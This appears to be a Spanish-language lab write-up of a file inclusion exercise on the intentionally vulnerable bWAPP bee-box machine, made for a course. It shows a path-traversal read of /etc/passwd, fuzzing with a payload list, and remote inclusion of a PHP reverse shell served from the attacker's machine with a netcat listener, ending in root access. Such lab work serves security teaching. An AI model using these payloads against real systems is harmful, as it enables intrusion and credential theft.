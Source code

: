 ```yaml
---
title: MTD - bWAPP file inclusion
published: true
categories: [Linux]
tags: [eJPT, eWPT, eCPPTv2, OSCP, Medio]
---
```



¡Hola! 
Hoy vamos a realizar el primer ejercicio del módulo de Hacking de aplicaciones Web, trabajando sobre la máquina `beebox`.
En este ejercicio realizaremos un `File inclusion`.

### Herramientas usadas: 
- **OWAS-ZAP Proxy**
- **Fuzz**
- **Scripting**


* * *

# PRIMEROS PASOS
En primer lugar usaremos `OWAS-ZAP` como proxy para indexar las páginas web y poder realizar un análisis más detallado.
La herramienta viene preinstalada en nuestro `kali linux` por lo tanto solamente tendriamos que abrirlo desde el gestor de aplicaciones y acto seguido configurar el `proxy` en nuestro navegador.

<img src="assets/HTB/bWAPP/proxy.png">

Acto seguido pasamos entrar a la web de nuestro máquina `bee-box`, en nuestro caso tendríamos la IP 10.0.2.5.


Como podemos ver en este `login` tenemos las credenciales ya dadas, en este caso `bee` de usuario y `bug` como contraseña.
Dentro de la aplicación web podemos encontrar en el apartado `A7` el ejercicio de `Remote & Local File Inclusion (RFI/LFI)`.


* * * 

# EN LA APLICACIÓN WEB
Una vez dentro de la aplicación web podemos ver un selector de lenguajes, a simple vista parece algo simple.

<img src="assets/HTB/bWAPP/proxy.png">

Cuando seleccionamos un lenguaje, podemos ver que la URL de nuestra aplicación web cambia. 
Esto sería un vacío donde podriamos realizar nuestras técnicas de intrusión.

Observamos que dentro del link añade una particularidad, `?language=lang_en.php` donde podemos comenzar a intentar escalar privilegios usando `../../etc/passw` para subir entre carpetas dentro del servidor web y podriamos ver si nos devuelve el fichero sensible.

<img src="assets/HTB/bWAPP/etc_pass.png">

Si analizamos el código fuente de la aplicación web, podemos ver que nos ha devuelto el fichero completo con sus directorios y nombres de usuario

<img src="assets/HTB/bWAPP/etc_pass.png">

Esta información podemos usarla para aplicarle ténicas de `fuzzing` con `OWAS-ZAP`. Eso lo veremos en el siguiente paso.

* * *

# USO DE LA APLICACIÓN
La aplicación que vamos a usar es `OWAS-ZAP` con técnicas de `fuzzing` cargando diccionarios, en este caso usaremos el diccionario del repositorio `AllPayloadThings` usando el fichero de `File Inclusion`

<img src="assets/HTB/bWAPP/usopayload.png">

Una vez configurado el fichero que vamos a usar, lanzamos el fuzzer y analizaremos los datos hallados.
Podemos observar en el `Fuzzed 7` un fichero `etc/apache2/` lo que podría hacernos ver una apertura de seguridad muy seria.

En nuestra máquina kali linux tenemos el repositorio de `webshells` con la cual podemos hacer una `shell` remota hacia nuestra máquina aprovechando la vulnerabilidad del servidor apache.

```bash
cd /usr/share/webshells/php
```

Usaremos el repositorio `php` ya que sabemos que el motor de la aplicacion web está en el lenguaje `php`.
Dentro del directorio podremos encontrar diferentes tipos de webshell a usar. Nosotros cargaremos una `reverseshell`.
En este caso tendremos que revisar el source code del fichero para configurar la dirección IP y puerto que usaremos.

```bash
nano php-reverse-shell.php
```
Una vez configurado nuestro archivo, tenemos que copiar en el directorio `/var/www/html`.

```bash
cp php-reverse-shell.php /var/www/html
```
Una vez configurado nuestro fichero a usar, podremos proceder a colocar nuestro enlace, previamente iniciando un servicio de apache2 y poniendo nuestra máquina a la escucha y cargaremos nuestra webshell desde el mismo link de la aplicación web.

```bash
service apache2 start
```

```bash
nc -lvnp 44044
```

Probaremos con cargar dentro del URL de la aplicación web nuestra `webshell` 

`http://nuestraIPdelamáquina/php-reverse-shell.php`

Y cuando vayamos hacia nuestra `shell` podremos observar que hemos conectado una remote shell hacia nuestra máquina y estamos dentro de la máquina `beebox`.

```bash
whoami
```
Podemos observar que estamos en el directorio /home/root/ de `beebox`

<img src="assets/HTB/bWAPP/webshell.png">







* * *

*__Esto es un ejercicio con fines didácticos realizado para MasterD.__*



